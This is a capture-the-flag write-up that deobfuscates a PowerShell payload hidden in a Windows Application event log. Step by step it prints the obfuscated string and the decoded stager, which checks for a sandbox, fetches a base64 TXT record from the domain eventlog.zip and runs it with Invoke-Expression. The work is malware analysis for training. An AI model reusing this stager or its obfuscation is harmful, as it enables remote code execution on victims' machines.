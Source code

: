 # Texas Chain Massacre
## Ugh! One of our users was trying to install a Texas Chainsaw Massacre video game, and installed malware instead. Our EDR detected a rogue process reading and writing events to the Application event log. Luckily, it killed the process and everything seems fine, but we don't know what it was doing in the event log.The EVTX file is attached. Are you able to find anything malicious?

## Archive password: infected

A file is joined to the challenge

---


Let's download the file to begin! 

# First step

After extracting the archive we find a file named `Application Logs.evtx` which is a windows event log file.

Opening with the Windows event viewer won't help, you have to open it with your favourite text editor and scroll a bit into it. 

Finally, something caught my eye. 

```ps
!96%w)CNWindows Installer installed the product. Product Name: The Texas Chain Saw Massacre (1974). Product Version: 8.0.382.5. Product Language: English. Director: Tobe Hooper. Installation success or error status: 0.(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')7
```

Well well... 

# Deobfuscation: First step

Let's focus on the end of the file

Easy step: ``$vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')7`` is in reality just `iex` which is in powershell a command to execute code.

At first sight we see a big long string followed by `creplace()` and `-replace()`. Let's replace the char manually on those for better visibility:

- `-cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36` == `-cREpLACE ("ZT6","$")`
- `-rEPlAce'a6T',[cHAr]34` == `-rEPlAce('a6T','"')`
- `-rEPlAce  'RYc',[cHAr]124` == `-rEPlAce  ('RYc','|')`
- `-cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39)` == `-cREpLACE  ("hx6","'")`

Let's tidy the first part of the file ("windows installer blabla") and keep the rest into a variable that I will name `$BigLongString`.


```ps
$BigLongString -cREpLACE ("ZT6","$") -rEPlAce('a6T','"')  -rEPlAce  ('RYc','|') -cREpLACE  ("hx6","'")
```

## Output

```ps
0.(('. ( $ENv:CoMSpEc[4,24,'+'25]-join'')( " $( Set-variaBle 'OfS' '')"+ ( [StriNg'+'] [rEGeX]::mAtcheS( " ))421]RAhC[,'fKI'eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,'kwl'EcalPeRC-  )')b'+'0Yb0Y'+'niOj-]52,'+'42,'+'+''4[ce'+'p'+'SMoC:Vn'+'ekwl ( '+'. fKI ) (DnEOTDA'+'e'+'r.)} ) '+'+''iicsA:'+':]GnidOcN'+'e.'+'T'+'xet'+'.'+'METsys['+' ,_kw'+h'+'x6l (RED'+'AeRmaertS.o'+'I'+' t'+'C''+'+'ejbO-Wh'+'x6+'En { HCaERoF'+'fKI) sSERpM'+'oCe'+hx'+'6d'+'::'+']'+'edOM'+''+'nOisSErPMoc'+'.NoISSer'+'pMOc.oi[, ) b'+'0Y'+'==wDyD4p+S'+'s/l/'+'i+5GtatJKyfNjO'+'+''3'+'3'+'4V'+'vj6wRyRXe1xy1pB0'+'AXVLMgOwY'+'//'+'Wom'+'z'+'zU'+'tB'+'sx/ie0rVZ7'+'xcLiowWMGEVjk7JMfxVmusz'+'OT3XkKu9TvOsr'+'bb'+'cb'+'GyZ6c/gY'+'Npil'+'BK7x5'+'Plc'+'8qUyOhBY'+'VecjNLW42YjM8SwtA'+'aR8I'+'O'+'w'+'m'+'6'+'UwWNmWzCw'+''+'VrS'+'r7I'+'T2'+'k6Mj1Mu'+'K'+'T'+'/oR'+'O5BKK8R3NhD'+'om2A'+'GYp'+'ya'+'TaNg8DAneNoeSj'+h'+'x6ugkTBFTcCPaSH0QjpFyw'+'+''aQyhx'+'6+'HtPUG'+'hx'+'6+'DL0BK3'+h'+'x6lClrHAv'+h'+'x64GOpVK'+'UN'+'mGzIDeraEvlpc'+'kC9EG'+'gIaf96jSmS''+'+'Mh'+'h'+'RfI72'+'oHzUkDsZoT5'+'n'+'c7MD8W31Xq'+'K'+'d4dbt'+'bth1RdSigEaE'+'JNERMLUxV'+''+'ME4PJtU'+'tSIJUZfZ'+'EE'+'A'+'JsTdDZNb'+'0Y(gniRTS4'+'6esh'+'x6+'aBmoRF::]tRevnO'+'C[]MAertsYrOmeM.Oi.mETSYs[ (MaEr'+'t'+'sEtALfeD.NO'+'IsS'+'erPmo'+'c.OI.me'+'TsYS''+'+' '+' tCejbO-WE'+'n ( '(((no'+'IsseRpX'+'e-ekovni ",'.','RightToLEFt' ) |forEach{$_ })+" $( sV 'oFs' ' ')" ) ')
```

Much better! But not enough

# Deobfuscation: Second step

The first line is... yeah... "readable" but after that I can't seem to understand one word. Looking in detail I see that it is simply reversed. The function `RightToLeft` at the end of the file confirm that. Let's put the reversed part into CyberChef (starting from `421` until `e-ekovni`)

```ps
invoke-e'+'XpRessI'+'on(((' ( n'+'EW-ObjeCt '+' '+'+''SYsT'+'em.IO.c'+'omPre'+'SsI'+'ON.DefLAtEs'+'t'+'rEaM( [sYSTEm.iO.MemOrYstreAM][C'+'OnveRt]::FRomBa'+6x'+'hse6'+'4STRing(Y0'+'bNZDdTsJ'+'A'+'EE'+'ZfZUJISt'+'UtJP4EM'+''+'VxULMRENJ'+'EaEgiSdR1htb'+'tbd4d'+'K'+'qX13W8DM7c'+'n'+'5ToZsDkUzHo'+'27IfR'+'h'+'hM'+'+''SmSj69faIg'+'GE9Ck'+'cplvEareDIzGm'+'NU'+'KVpOG46x'+'h+'vAHrlCl6x'+'h+'3KB0LD'+6'+'xh'+'GUPtH'+6'+'xhyQa''+'+'wyFpjQ0HSaPCcTFBTkgu6x'+'h+'jSeoNenAD8gNaT'+'ay'+'pYG'+'A2mo'+'DhN3R8KKB5O'+'Ro/'+'T'+'K'+'uM1jM6k'+'2T'+'I7r'+'SrV'+''+'wCzWmNWwU'+'6'+'m'+'w'+'O'+'I8Ra'+'AtwS8MjY24WLNjceV'+'YBhOyUq8'+'clP'+'5x7KB'+'lipN'+'Yg/c6ZyG'+'bc'+'bb'+'rsOvT9uKkX3TO'+'zsumVxfMJ7kjVEGMWwoiLcx'+'7ZVr0ei/xs'+'Bt'+'Uz'+'z'+'moW'+'//'+'YwOgMLVXA'+'0Bp1yx1eXRyRw6jv'+'V4'+'3'+'3''+'+'OjNfyKJtatG5+i'+'/l/s'+'S+p4DyDw=='+'Y0'+'b ) ,[io.cOMp'+'reSSIoN.'+'coMPrESsiOn'+''+'MOde'+']'+'::'+'d6'+'xh+'eCo'+'MpRESs )IKf'+'FoREaCH { nE'+6x'+'hW-Obje'+'+''C'+'t '+'I'+'o.StreamReA'+'DER( l6x'+'h+'wk_, '+'[sysTEM'+'.'+'tex'+'T'+'.e'+'NcOdinG]:'+':Ascii''+'+' ) }).r'+'e'+'ADTOEnD( ) IKf .'+' ( lwke'+'nV:CoMS'+'p'+'ec[4''+'+',24'+',25]-jOin'+'Y0bY0'+'b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124
```

Every step takes us to a more readable code! Let's continue.

A lot of string concatenation is in place here. Let's remove `'+'`.

## Output

```ps
invoke-eXpRessIon(((' ( nEW-ObjeCt  +''SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBa'+6xhse64STRing(Y0bNZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhM+''SmSj69faIgGE9CkcplvEareDIzGmNUKVpOG46xh+'vAHrlCl6xh+'3KB0LD'+6xhGUPtH'+6xhyQa'+'wyFpjQ0HSaPCcTFBTkgu6xh+'jSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433'+'OjNfyKJtatG5+i/l/sS+p4DyDw==Y0b ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::d6xh+'eCoMpRESs )IKfFoREaCH { nE'+6xhW-Obje+''Ct Io.StreamReADER( l6xh+'wk_, [sysTEM.texT.eNcOdinG]::Ascii'+' ) }).reADTOEnD( ) IKf . ( lwkenV:CoMSpec[4'+',24,25]-jOinY0bY0b)')  -CRePlacE'lwk',[ChAR]36  -CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39  -RePLACe'IKf',[ChAR]124
```

And we have replace and char again ! Let's focus on these :

- `-CRePlacE'lwk',[ChAR]36` == `-CRePlacE('lwk',"$")`
- `-CRePlacE ([ChAR]89+[ChAR]48+[ChAR]98),[ChAR]39` == `-CRePlacE (("Y0b"),"'")`
- `-RePLACe'IKf',[ChAR]124` == `-RePLACe('IKf',"|")`

Let's put all the rest into a $string and make this cmd :

```ps
$string -CRePlacE('lwk',"$")  -CRePlacE (("Y0b"),"'")  -RePLACe('IKf',"|")
```

## Output

```0.(('. ( $ENv:CoMSpEc[4,24,25]-join'')( " $(
Set-variable 'OfS' '')"+ ( [String] [regex]::matches( " ))


invoke-eXpRessIon(((' ( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH    
{
 nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( ) | iex
```

Looks like we have something here ! 

Following this the script decodes from base64, decompress and then execute. Let's change `iex` and replace it by `Write-Output` to avoid executing a malware to my computer and mostly to see the output of the script !

```ps

$decompressedContent = ( nEW-ObjeCt  SYsTem.IO.comPreSsION.DefLAtEstrEaM( [sYSTEm.iO.MemOrYstreAM][COnveRt]::FRomBase64STRing('NZDdTsJAEEZfZUJIStUtJP4EMVxULMRENJEaEgiSdR1htbtbd4dKqX13W8DM7cn5ToZsDkUzHo27IfRhhMSmSj69faIgGE9CkcplvEareDIzGmNUKVpOG4vAHrlCl3KB0LDGUPtHyQawyFpjQ0HSaPCcTFBTkgujSeoNenAD8gNaTaypYGA2moDhN3R8KKB5ORo/TKuM1jM6k2TI7rSrVwCzWmNWwU6mwOI8RaAtwS8MjY24WLNjceVYBhOyUq8clP5x7KBlipNYg/c6ZyGbcbbrsOvT9uKkX3TOzsumVxfMJ7kjVEGMWwoiLcx7ZVr0ei/xsBtUzzmoW//YwOgMLVXA0Bp1yx1eXRyRw6jvV433OjNfyKJtatG5+i/l/sS+p4DyDw==' ) ,[io.cOMpreSSIoN.coMPrESsiOnMOde]::deCoMpRESs )|FoREaCH { nEW-ObjeCt Io.StreamReADER( $_, [sysTEM.texT.eNcOdinG]::Ascii ) }).reADTOEnD( )

$decompressedContent

```

## Output

```ps
try {
    $TGM8A = Get-WmiObject MSAcpi_ThermalZoneTemperature -Namespace "root/wmi" -ErrorAction 'silentlycontinue' ; 
    if ($error.Count -eq 0) { 
        $5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { 
            $_.Strings }); 
            if (
                $5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { 
                    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Invoke-Expression } } } catch { }
```

# Final step

Let's ignore the `try catch` and the `if` condition, replace the final `Invoke-Expression` with `Write-Host` and the flag will appear!

```ps
$5GMLW = (Resolve-DnsName eventlog.zip -Type txt | ForEach-Object { 
            $_.Strings }); 
            if (
                $5GMLW -match '^[-A-Za-z0-9+/]*={0,3}$') { 
                    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($5GMLW)) | Write-Host }
```